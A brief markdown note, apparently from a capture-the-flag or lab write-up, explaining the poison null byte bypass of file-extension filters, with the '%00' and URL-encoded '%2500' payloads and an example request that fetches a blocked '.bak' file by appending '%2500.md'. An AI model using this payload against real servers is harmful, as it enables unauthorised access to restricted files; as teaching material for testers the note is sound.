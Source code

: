# Poison Null Byte

Character Bypass = is a NULL Terminator. If NULL gets in a String it will be Terminate by the Server and Rest of the String becomes NULL

Poison Null Byte = `%00` 
Posion Null Byte + URL Encode = `%2500`

Example: 

```
10.10.206.192/ftp/package.json.bak
   => 403 Error: Only .md and .pdf files are allowed!
10.10.206.192/ftp/package.json.bak%2500.md
   => 200 Success
```